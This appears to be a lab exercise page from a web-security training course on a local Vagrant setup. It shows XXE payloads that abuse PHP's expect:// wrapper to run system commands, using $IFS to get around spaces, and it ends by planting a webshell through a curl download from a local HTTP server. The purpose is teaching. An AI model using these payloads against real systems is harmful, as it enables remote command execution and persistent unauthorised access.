 ```yaml
---
title: "Command Injection"
weight: 3
---
```


{{% notice note %}}
Make sure you are on the PHP site (`/php/`) for these exercises.
{{% /notice %}}

If PHP allows the use of the `expect` protocol we may be able to run commands directly against the operating system.

In this first example we are going to run the `whoami` command and include the results in the XML document:

```xml
<!DOCTYPE root [
  <!ENTITY cmd SYSTEM "expect://whoami">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&cmd;</email>
  <password>pass</password>
</root>
```

As shown below we can see the results of the command:

![](/static/img/php_whoami_results.png)

One more example. Lets get the groups and IDs the `www-data` user is a part of:

```xml
<!DOCTYPE root [
  <!ENTITY cmd SYSTEM "expect://id">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&cmd;</email>
  <password>pass</password>
</root>
```

It looks like we are part of the `www-data` and `vagrant` groups.

![](/static/img/php_id_results.png)

One issue with command injection is that there are some characters that will mess things up. The most prominant is the space. If we try to submit a command like `ls /etc/` it will not work. We can overcome this by using the `$IFS`. `$IFS` tells bash how to separate words and by default it is set as a space. Using this we can then issue the command `ls$IFS/etc/` and expect to get the results back:

```xml
<!DOCTYPE root [
  <!ENTITY cmd SYSTEM "expect://ls$IFS/etc">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&cmd;</email>
  <password>pass</password>
</root>
```

![](/static/img/php_ifs_results.png)

## Webshell

We can use these techniques to create a webshell. First run a python webserver in the `/home/vagrant/test_files` directory. Inside that directory you will find the `simple_php_webshell.php` file which will be our target.

```bash
cd /home/vagrant/test_files
python3 -m http.server 5000
```

What we are going to do is use expect to call curl and download the webshell. Here is our payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'127.0.0.1:5000/simple_php_webshell.php'">
]>
<root>
  <name>Joe</name>
  <tel>ufgh</tel>
  <email>START_&file;_END</email>
  <password>kjh</password>
</root>
```

If everything worked you should now be able to visit [http://localhost:8085/php/simple_php_webshell.php](http://localhost:8085/php/simple_php_webshell.php).

![](/static/img/php_webshell.png)
